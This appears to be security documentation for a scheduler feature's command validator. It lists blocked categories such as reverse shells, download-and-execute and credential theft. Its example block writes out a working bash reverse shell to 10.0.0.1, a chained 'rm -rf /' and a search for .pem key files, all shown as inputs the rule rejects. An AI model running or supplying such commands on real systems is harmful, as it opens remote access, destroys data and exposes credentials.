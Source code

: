 # Scheduler Security Documentation

## Enterprise-Grade Security Features

This document outlines the comprehensive security measures implemented in the BrokeForge Scheduler feature to ensure enterprise-grade protection against common attack vectors.

---

## 1. Command Injection Protection ✅ **CRITICAL**

### Implementation
**File**: `app/Rules/SafeCommand.php`

### Protection Against
- **Command injection via separators** (`;`, `&`, `|`, `` ` ``, `$()`, `${}`)
- **Reverse shells** (bash/python/perl with `/dev/tcp`)
- **System destruction** (`rm -rf /`, `mkfs`, `fdisk`, `dd`)
- **User manipulation** (userdel, passwd, chmod outside /home/brokeforge)
- **Network attacks** (nmap, netcat listeners)
- **Credential theft** (cat/grep on .ssh, .aws, shadow, passwd)
- **Download-and-execute** (curl/wget piped to bash)
- **Cron manipulation** (preventing cron within cron)
- **Service disruption** (systemctl stop critical services)
- **Null byte injection** (command injection technique)

### Allowed Operations
- Standard package management: `apt-get`, `npm install`, `composer update`
- Application commands: `php artisan`, `node`, `python scripts`
- File operations: within `/home/brokeforge` directory only
- Backups: tar, gzip, database dumps

### Validation Rules
- **Max command length**: 1000 characters
- **No sudo allowed**: Commands run with appropriate privileges automatically
- **Regex pattern matching**: 15+ dangerous patterns blocked
- **Character validation**: No null bytes or malicious substitution

### Example Blocked Commands
```bash
# Command injection
php artisan migrate && rm -rf /  # ❌ BLOCKED

# Reverse shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1  # ❌ BLOCKED

# Credential theft
find / -name "*.pem" 2>/dev/null  # ❌ BLOCKED

# Service manipulation
systemctl stop nginx  # ❌ BLOCKED
```
